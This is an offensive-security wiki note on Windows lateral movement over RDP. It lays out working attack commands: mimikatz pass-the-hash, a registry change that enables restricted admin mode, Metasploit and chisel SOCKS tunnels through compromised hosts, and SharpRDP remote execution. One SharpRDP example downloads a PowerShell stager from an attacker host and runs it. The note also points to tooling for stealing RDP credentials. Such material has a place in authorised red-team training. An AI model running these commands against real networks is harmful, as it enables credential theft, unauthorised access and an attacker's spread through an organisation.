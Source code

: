 ```yaml
---
title: Windows lateral movement
tags:
  - windows
  - lateral
  - movement
  - breach
  - operations
  - rdp
  - proxy
  - metasploit
  - sharprdp
  - mimikatz
  - hashing
  - pass
  - hash
  - socks
  - chisel
---
```


## Remote desktop protocol

**Remote desktop protocol (RDP)** is a Windows application that allows users to
create interactive sessions between Terminal Servers. Regular authentication via
RDP caches the user's credentials on the host, as a user's credentials are
required to authenticate to the remote server. Using the techniques we described
[[windows-credentials|in our Mimikatz discussion]], we can dump a user's
password hashes for cracking later.

Using the terminal service, `mstsc.exe`, we can also authenticate to and
establish sessions with remote hosts without providing credentials, using cached
credentials of the logged-in user. We can do this by providing the
`/restrictedadmin` parameter during the invocation of the `mstsc.exe` program.
This technique is called **passing the hash**.

### Passing the hash

In a scenario where we're in the possession of a password hash for the `admin`
user of a domain and we're logged into a terminal within the domain as a
different user, for example `dave`, because we have connectivity to the domain
controller within the domain, we can attempt to pass the hash using the `admin`
user's NTLM hash to acquire a session on the target host. Here's a demonstration
of this using **mimikatz**:

```cmd
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:${USER} /domain:${DOMAIN} /ntlm:${HASH} /run:"mstsc.exe /restrictedadmin"
```

Restricted admin mode is not enabled by default, however, we can use the pass
the hash technique to execute commands on the target host to re-enable
restricted admin mode by targeting the
`HKLM:\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin` registry
key. Invoking the following `mimikatz` command will provide us with a
**PowerShell** session as a target user by passing the hash:

```cmd
mimikatz # sekurlsa::pth /user:${USER} /domain:${DOMAIN} /ntlm:${HASH} /run:powershell
```

Once the Meterpreter session is active, we'll send it to the background and
switch to the `multi/manage/autoroute` module. This will allow us to configure a
reverse tunnel through the Meterpreter session and use that with a **SOCKS**
proxy. Invoking the following PowerShell, we can impersonate the target user and
enable restricted admin mode:

```powershell
Enter-PSSession -Computer "${COMPUTERNAME}"
New-ItemProperty `
	-Path "HKLM:\System\CurrentControlSet\Control\Lsa" `
	-Name DisableRestrictedAdmin `
	-Value 0
```

We can also pass NTLM hashes with **xfreerdp** by invoking the following:

```bash
xfreerdp /u:${USER} /pth:${HASH} /v:${RHOST}
```

### Metasploit

We'll frequently encounter scenarios where our compromised targets are protected
within a virtual network with a NAT gateway, firewall, etc. preventing us from
creating inbound connections to our target. This is why reverse shells are so
useful, because the compromised host can call back to our C2 to establish a
connection, bypassing any firewalls and enabling our connection to the remote
target.

Once we land a **meterpreter** agent on a target host, we can use that agent to
proxy our RDP session by establishing a reverse tunnel and a **SOCKS** proxy. We
invoke the following in **msfconsole** with an active agent session to establish
a proxy:

```bash
use multi/manage/autoroute
set session ${SESSION}
exploit
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
exploit -j
```

The above invocation establishes a reverse tunnel through the current session,
creating routing rules on our attacker host to route traffic destined for our
target's private network through the tunnel we created. We then establish a
SOCKS proxy on the host listening on `127.0.0.1:1080` and run it in the
background.

Now we can use the **proxychains** application to proxy our RDP communications
to the target through the SOCKS proxy with the example invocation:

```bash
sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
proxychains rdesktop ${RHOST}
```

We can use `proxychains` for more than just RDP, we can use applications like
**nmap**, for host discovery within the target's private network, or **firefox**
to browse web applications on servers only routeable within the target network.

### Chisel

[Chisel](https://github.com/jpillora/chisel) is a pretty neat application that
can also create reverse tunnels and proxy our communications. We can invoke the
following with `chisel` to setup a SOCKS proxy on our attacker host:

```bash
chisel server -p 8080 --socks5
sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' # enable SSH password login on this host
sudo systemctl start ssh.service
ssh -N -D 0.0.0.0:1080 localhost
```

On the target, we can execute the following to initiate a reverse tunnel with
`chisel`:

```powershell
chisel.exe client ${LHOST} socks
```

Once the reverse connection is established, we can use the SOCKS proxy to
establish an RDP session with our target:

```bash
sudo proxychains rdesktop ${RHOST}
```

### SharpRDP

[SharpRDP](https://github.com/0xthirteen/SharpRDP) uses the terminal services
library, `mstscax.dll`, to interact with non-scriptable interfaces for
authentication used in the same way by `mstsc.exe`. We can use **SharpRDP** to
execute code through the `SendKeys` terminal services interface, requiring no
GUI access and rendering the creation of reverse tunnels unnecessary. Here's an
example execution of `SharpRDP.exe` to invoke an application on a target host
after authentication:

```powershell
Start-Process `
	-FilePath ".\SharpRDP.exe" `
	-ArgumentList @(
		"computername=${COMPUTERNAME}",
		"command=${COMMAND}",
		"username=${DOMAIN}\${USER}",
		"password=${PASSWORD}"
	)
```

Here's an example invocation to execute the download of a PowerShell stager on a
target host:

```powershell
$COMMAND="powershell -Command `"(Invoke-RestMethod -Uri http://${LHOST}:${LPORT}/stager.ps1 -UseBasicParsing) | Invoke-Expression`""

Start-Process `
	-FilePath ".\SharpRDP.exe" `
	-ArgumentList @(
		"computername=${COMPUTERNAME}",
		"command=${COMMAND}",
		"username=${DOMAIN}\${USER}",
		"password=${PASSWORD}"
	)
```

### Stealing RDP credentials

When users provide their credentials to establish RDP sessions, they're passed
in plaintext to the program. If we could inject into the `mstsc.exe` and hook
the correct methods, we could dump the user's credentials when they attempt to
RDP - essentially a keylogger. [RdpThief](https://github.com/0x09AL/RdpThief) is
a standalone DLL that we can inject to conduct this attack. Tools like
[RDPThiefInject](https://github.com/S3cur3Th1sSh1t/RDPThiefInject) provide
example code to generate payloads.
